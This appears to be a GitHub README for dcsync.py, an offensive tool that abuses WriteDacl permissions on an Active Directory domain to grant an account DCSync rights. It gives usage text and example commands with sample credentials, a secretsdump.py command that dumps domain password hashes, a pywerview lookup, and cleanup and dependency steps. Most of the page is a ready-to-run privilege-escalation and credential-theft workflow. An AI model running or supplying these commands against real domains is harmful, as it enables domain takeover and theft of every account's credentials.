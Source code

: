 # Adding DCSync Permissions
Mostly copypasta from https://github.com/tothi/rbcd-attack
```
usage: dcsync.py [-h] -dc FQDN -t USERNAME [-hashes LMHASH:NTHASH] [-k] identity

WriteDacl Attack: To abuse WriteDacl to a domain object, you may grant yourself the DcSync privileges.

positional arguments:
  identity              domain\username:password, attacker account with write access to target computer properties (NetBIOS domain name must be used!)

optional arguments:
  -h, --help            show this help message and exit
  -dc FQDN              FQDN of the Domain Controller
  -t USERNAME           Target user to be escalated in format *Distinguished Names*
  -hashes LMHASH:NTHASH
                        Hash for LDAP auth (instead of password)
  -k                    If you want to use a Kerberos ticket

Example: 
  ./dcsync.py -dc dc01.n00py.local -t 'CN=n00py,OU=Employees,DC=n00py,DC=local'  n00py\Administrator:Password123
  ./dcsync.py -dc dc01.n00py.local -t 'CN=n00py,OU=Employees,DC=n00py,DC=local'  n00py\Administrator -k
  
  ./dcsync.py -dc dc01.n00py.local -t 'CN=spoNge369,CN=Users,DC=n00py,DC=local' 'n00py.local\user_with_writeDACL:P@$$w0rd123'
  
   DCSync Attack (:
      secretsdump.py 'n00py.local/spoNge369:passw0rd123!@dc01.n00py.local'

   Search Distinguished Names(DN) of spoNge369:
      pywerview get-netuser -u'any_valid_user' -p'password321$' -t dc01.n00py.local | perl -wnlE'print if/distinguishedname.+spoNge369/'
  
```

To clean up after you are done, use ACLpwn https://github.com/fox-it/aclpwn.py. This tool is pretty old and not maintained, but you can get it to work. One thing you will need to do is replace “neo4j.v1” with just “neo4j” in database.py. To restore the ACLs to the original configuration, use the restore state file created by the DCSync tool.




## Dependencies:

Impacket
pip3 install pywerview

For kerberos:
```
apt install heimdal-dev -y
apt install libkrb5-dev -y
python3 -m pip install gssapi
```
